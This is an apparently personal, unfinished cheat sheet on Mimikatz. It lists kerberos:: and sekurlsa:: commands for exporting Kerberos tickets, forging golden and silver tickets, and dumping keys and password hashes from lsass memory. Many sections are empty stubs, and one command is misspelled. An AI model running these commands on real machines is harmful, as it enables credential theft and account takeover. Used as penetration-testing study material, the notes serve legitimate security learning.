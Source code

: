 - Used to harvest credentials from a windows machine.
- Has two additional components:
	- `Mimidrv`: driver that interacts with windows kernel
	- `Mimilib`: Bypass applocker, auth package/SSP etc.
- Runs with:
	- `Administrator` with `Privilege::debug` mode
	- `SYSTEM` privilege

# Kerberos
### ask
```bash
kerberos::ask
```
### list
- Lists or exports TGTs and STs from the current session
```powershell
kerberos::list # Lists the tickets
kerberos::list /export # Export the tickets to files
```
### purge
- purge all TGTs and STs from the current session.
```powershell
kerberos::purge
```
### tgt
- Prints information about the TGT from current session
```powershell
kerberos::tgt
```
### golden
[[Active Directory/Exploitation/Kerberos#Golden Tickets|Golden Tickets]]
- Create golden tickets from krbtgt's NTLM hash or Kerberos keys.
### silver
- Create silver ticket from a service's NTLM hash or Kerberos keys.\

# SekurLSA
Dumps keys, password hashses, pin codes from protected memory of lsass.exe proccess.
Rights required:
- SYSTEM
- Administrator with debug privilege (privilege::debug)
### backupkeys
- get backup master keys.
```powershell
sekurlsa::backupkey
```
### credman
- Lists credential manager
```powershell
sekurlsa::credman
```
### dpapi
[[DPAPI]]
- Lists cached master keys
```powershell
sekurlsa::dpapi
```
### dpapisystem
### ekeys
Lists kerberos encryption keys
```powershell
sekursla::ekeys
```
### kerberos

### krbtgt
### livessp
### logon passwords
### minidump
### msv
### process
### pth
### ssp
### tickets
### trust
### tspkg
### widget

# LSAdump